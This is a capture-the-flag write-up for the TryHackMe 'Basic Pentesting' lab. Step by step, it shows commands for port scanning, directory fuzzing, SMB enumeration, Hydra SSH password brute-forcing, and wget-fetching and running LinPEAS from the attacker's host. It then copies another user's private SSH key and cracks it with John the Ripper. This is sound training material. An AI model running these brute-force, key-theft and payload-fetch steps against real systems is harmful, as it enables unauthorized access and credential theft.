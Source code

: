 # Basic Pentesting - Try Hack Me


Target: 10.10.162.125


The first thing I did is to scan the ip address. Let us run an Nmap scan on the target 10.10.162.125
###### nmap scan
```
$ sudo nmap -sC -sV 10.10.162.125
```
There are multiple open ports but the port 22 is is what caught my eye. Port 22 or SSH is often used to login and perform operations on computers.
Result:



![src:index](basicpentesting_1.png)
                                                                                                                                                                                      
###### search for directories
```
$ ffuf -w /opt/SecLists/Discovery/Web-Content/raft-small-words.txt -u http://10.10.159.226/FUZZ -fw 22
```

![src:index](basicpentesting_2.png)

###### simple enumeration using enum4linux
```
$ enum4linux -a 10.10.159.226
```
![src:index](basicpentesting_3.png)
![src:index](basicpentesting_4.png)


###### bruteforcing password for user jan using hydra

```                                           
$ hydra -l jan -P /usr/share/wordlists/rockyou.txt ssh://10.10.162.125 -V
```
![src:index](basicpentesting_5.png)
![src:index](basicpentesting_6.png)
###### login to user through ssh
```
$ ssh jan@10.10.162.125
```

###### maghhost ng file para madownload ng machine yung LinPEAS
```
$ python -m http.server 8001
```
![src:index](basicpentesting_7.png)

###### change directory to /dev/shm/ for us to be able to write
```
jan@basic2:~$ cd /dev/shm/
```

###### download LinPEAS
```
jan@basic2:/dev/shm$ wget http://10.18.69.128:8001/linpeas.sh 
```
![src:index](basicpentesting_8.png)


###### make LinPEAS executable by running the command:
```
jan@basic2:/dev/shm$ chmod +x linpeas.sh
```

###### run LinPEAS 
```
jan@basic2:/dev/shm$ ./linpeas.sh
```
![src:index](basicpentesting_10.png)

###### found possible private SSH keys 
###### /home/kay/ .ssh/id_rsa


###### change directory to /home/kay
```
jan@basic2:/dev/shm$ cd /home/kay
```

###### list files
```
jan@basic2:/home/kay$ ls
```

###### found pass.bak
![src:index](basicpentesting_12.png)
###### list permission of the files and directories / hidden files
```
jan@basic2:/home/kay$ ls -la
```
![src:index](basicpentesting_13.png)

###### change directory to .ssh/
```
jan@basic2:/home/kay$ cd .ssh/
```

###### list files
```
jan@basic2:/home/kay/.ssh$ ls
```

###### found id_rsa
![src:index](basicpentesting_11.png)

###### cat id_rsa
```
jan@basic2:/home/kay/.ssh$ cat id_rsa
```
![src:index](basicpentesting_15.png)
###### save ssh key
```
$ mousepad kay_id_rsa
```


###### run the ssh2john script, and write the results of it into a file:
```
ssh2john kay_id_rsa > kay_hash
```

###### crack ssh private key with john the ripper
```
$ john --wordlist=/usr/share/wordlists/rockyou.txt kay_hash
```
![src:index](basicpentesting_16.png)

###### chmod 
```
$ chmod 600 kay_id_rsa
```
![src:index](basicpentesting_17.png)

###### ssh to user kay using the passphrase
```
ssh -i kay_id_rsa kay@10.10.162.125
```
![src:index](basicpentesting_18.png)
###### list down files
```
kay@basic2:~$ ls
```

###### print pass.bak
```
kay@basic2:~$ cat pass.bak
```
![src:index](basicpentesting_19.png)












